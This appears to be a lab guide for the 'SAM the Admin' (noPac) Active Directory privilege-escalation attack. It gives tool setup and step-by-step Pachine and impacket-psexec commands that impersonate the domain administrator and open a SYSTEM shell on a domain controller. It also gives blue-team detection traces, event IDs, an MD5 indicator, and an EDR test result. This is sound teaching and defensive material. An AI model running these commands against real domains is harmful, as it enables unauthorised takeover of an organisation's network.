






# SAM the Admin

## Background

This attack is used for exploiting vulnerabilities `CVE-2021-42278` and `CVE-2021-42287`. 

By default, a standard domain user can join a computer to an Active Directory domain a maximum of 10 times. To distinguish user accounts from computer accounts, the latter should have a trailing `$` in its sAMAccountName attribute. 

The attacker first creates a new machine named "*dc*" without the trailing `$` and requests a *Ticket Granting Ticket* (TGT) for this account. After receiving the TGT, the machine account "dc@DOMAIN" is renamed. After renaming, no computer named "dc" exists in the domain. One key issue arises when a *Ticket Granting Service* (TGS) is then requested for an account that doesn't exist.  When account "dc" is not found, *Key Distribution Center* (KDC) automatically tries appending the missing `$`. This leads to the machine account name resolving to  `dc` + `$`  = `dc$` (domain controller). If the Key Distribution Center also doesn't force the use of *Privilege Attribute Certificate* in TGTs, the vulnerability can be exploited. 

The version (or build) of the Windows cannot be used to undeniably define whether or not the target is vulnerable. Instead, it should be checked if certain updates have been installed or not. If not, the target is most likely vulnerable.

#### Requirements

There are few practical requirements for this exploit to be usable:

- The domain controller must be vulnerable
- The abused service must have a *Service Principal Name* (SPN) set
- Attacker must have valid credentials to an AD account to (mis)use
-  The account "misused" **must be delegated to the abused service's SPN**

## Setup 

### Tools required

- krb5-user (from Linux repository)
- Pachine, https://github.com/ly4k/Pachine
    - requires: *Impacket*

### Environmental requirements

- Domain controller not patched with November 2021 updates (KB5008102 and KB5008380)

<br>
### Installation

<p style="color:red"> The container is configured to take these steps automatically.</p>

- Install *krb5-user*: `$sudo apt-get install krb5-user`
    - During the installation, give following values:
        - **Default Realm**: RT.VLE.FI
        - **Kerberos Servers**: DC.RT.VLE.FI
        - **Administrative Server**: DC.RT.VLE.FI

<br>
- Clone *Pachine* from Github: 
    - `$git clone https://github.com/ly4k/Pachine`

<br>

- Install *Impacket* required for Pachine, if not installed already
    - `$pip3 install impacket`


### Docker

A docker image has been provided which includes the following tools:  

```Impacket``` in the /opt -directory  
```Pachine```  in the /opt -directory  
```SSH```  
```Proxychains```   


##### Firing up the Docker container 

A *dockerfile* has been provided in the repository. Using it, build the image and run the container by running command 

```bash
# 1. go to directory with the dockerfile

# 2. Build the Docker image, name it with arg specified with -t
$docker build . -t my_container_name

# 3. Run the container and open a shell there.
$docker run -it my_container_name "/bin/bash"

# 4. Carry out the mandatory configuration of the file /etc/hosts (instructions below)
```


##### Mandatory configurations inside the container

- Add entry of DC's IP-address to */etc/hosts*:  
    - `<DC_IP> dc.rt.vle.fi rt.vle.fi`

<br>

## Attack steps

1. Use *pachine.py* (found in cloned Pachine directory) to check if the machine is vulnerable.

`$python3 pachine.py -dc-host [DC FQDN] -scan "[DOMAIN]/[USERNAME:PW]"`



<br>

2. Using *pachine.py*, acquire administrator's Kerberos ticket. This ticket is saved for a .ccache file in the current directory.

`$python3 pachine.py -dc-host [DC FQDN] -spn cifs/[DOMAIN] -impersonate administrator '[DOMAIN]/[USERNAME]:[PW]'`



<br>

3. Export path of the .ccache file to an environmental variable called **KRB5CCNAME**. Check the local directory for the file if needed. After the export valid Kerberos tickets can be checked.

`$export KRB5CCNAME=$PWD/[CCACHE_FILE_NAME]`

`$klist`



NOTE: If you use auto-completion (TAB) to fill the ccache filename into the export command, terminal may automatically escape the dollar sign in `$PWD`. Make sure the dollar sign is **not** escaped.


4. Open a shell on the DC as user "system" with the following command:

`$impacket-psexec -k -no-pass [DOMAIN]/administrator@[DOMAIN]`




5. Enjoy!


## For blue teams

The attack leaves traces in Windows event logs, Windows Active Directory and most likely to the ADMIN$ share of the domain controller. 

### Attack traces

Traces were mapped to attack procedures whenever possible. Listed attacker procedures might not be separate manual actions carried out by the attacker. Listed procedures can be smaller actions induced by a single command executed by the attacker. 

#### Step 1 - Pachine.py, scan

During the first step the attacker scans the domain controller for vulnerability. The table below shows the attack procedures during the first of the attack in terms of their respective traces and their source/ location.


| Attack procedure | Trace type / location |IoC / trace | Additional info |
|:-:|:-:|:-:|:-:|
| Request TGT without a PAC for regular user X | Windows Event Log | Kerberos TGT Request, [Event 4768](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4768) | Differs from "normal" TGT request by requesting a ticket specifically **without** PAC |
| Request TGT with a PAC for regular user X | Windows Event Log | Kerberos TGT Request, [Event 4768](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4768)| Normal TGT request, hard to distinguish from bad actions|

<br>

#### Step 2 - Exploitation, Admin  Impersonation

Attackers can use regular user's credentials to add a machine account to the domain. A series of other procedures are executed to induce the DC to yield a TGS for Administrator user. Actions before administrative access are executed as regular user X (victim). 

| Attack procedure | Trace source / location | IoC / trace |Additional info|
|:-:|:-:|:-:|:-:|
|Add new machine account named ""**dc**"" to the domain | Windows Event Log / DC | Machine Account Creation, [Event 4741](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4741)| EventData contains TargetUserName "dc", **note:** The machine account name doesn't end with `$` |
| Request TGT for machine account "dc"| Windows Event Log / DC| Kerberos TGT Request, [Event 4768](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4768) | EventData contains TargetUserName "dc" |
| Change machine account name "dc" to "DESKTOP-NNNNNNNN$" | Windows Event Log / DC| Machine account name changed, [Event 4781](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4781)| EventData contains OldTargetUserName "dc" |
| Request TGS for machine account "dc" using S4U2Self functionality | Windows Event Log / DC | Kerberos TGS Request, [Event 4769](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4769)| EventData contains TargetUserName "dc@" + DOMAIN_NAME |
| Change server name from dc@DOMAIN to cifs/DOMAIN@DOMAIN| **UNK ?**| - |
| Change machine account name "DESKTOP-NNNNNNNN$" to "dc" | Windows Event Log| Machine account name changed, [Event 4781]()| EventData contains NewTargetUserName "dc" and OldTargetUserName "DESKTOP-NNNNNNNN\$".|

**Note:** Each *N* in machine name "DESKTOP-NNNNNNNN$" stands for a randomly generated character by the attacker. 

The figure below demonstrates a situation where the attacker has added a machine "dc" to domain. Note the missing `$` in machine's name. 

  

<br>

In the figure below the attacker has renamed `DESKOP-NNNNNNNN$` back to `dc`.  

  

<br>

#### Step 3 - Exporting KRB5CCNAME to env. vars

- No attacker actions which would leave traces to target system or network.

#### Step 4 - Impacket PsExec 


The attacker uploads a randomly named **RemComSvc** utility binary to the target machine's writable share via SMB and creates a service. The length of the random named executable is approximately 7 to 9 characters (excluding the .exe extension). The service's name is typically 4 charaters long.   


| Attack procedure | Trace source / location | IoC / trace |Additional info|
|:-:|:-:|:-:|:-:|
|Shares requested on target IP| UNK| UNK|-|
|Upload <RND_STR>.exe to share|Propable file artifact / C:\\Windows\\<RND_STR>.exe / DC|Executable with MD5sum: `6983f7001de10f4d19fc2d794c3eb534`, **may get deleted if the attacker's shell session exits gracefully** |Located very likely under `C:\Windows\`, share used for access very likely `ADMIN$`, File checksum is a certain IoC|
| Create service to execute <RND_STR>.exe| Windows Event Log / DC| Service Control Manager, [Event 7045](https://www.manageengine.com/products/active-directory-audit/kb/system-events/event-id-7045.html) ( event 7045 is a "legacy" version of [Event 4697](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4697))| Announcement of a new created service (NNNN) |
|Start the service to execute <RND_STR>.exe| Windows Event Log / DC | Service Control Manager, [Event 7036](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4697)]| Announcement of the (attacker's) service (NNNN) having entered running state|

<br>

## EDR detection

This exploit was tested against Windows Server 2012 with FireEye Endpoint Security Client, version 33.46.6. FireEye did not detect the attack. FireEye EDR did not generate alerts on the EDR service in the Labranet RT environment.


### CWE and MITRE ATT&CK   

CWE-269: Improper Privilege Management  

**TA0001 - Initial access:**  
T1078 - Valid accounts  
* Attacker needs a valid account on the domain to execute the attack.  

**TA0003 - Persistence**  
T1078 - Valid accounts
* The attacker can maintain access to network resources through the compromised or newly created accounts.  

**TA0004 - Privilege escalation**  

T1134 - Access token manipulation  
* By exploiting the vulnerability, attackers can create TGS for any user in the domain to the CIFS service (If the victim is assigned to that service). Gaining access to the CIFS service allows attackers to access domain controller's network shares as domain administrator. 

T1078 - Valid accounts  
*  The attacker gains access to a valid account on the domain.  

**TA0006 - Credential access**  
T1558 - Steal or forge kerberos tickets  
* The attacker can request the administrator's ticket because of account name handling on the Key Distribution Center.



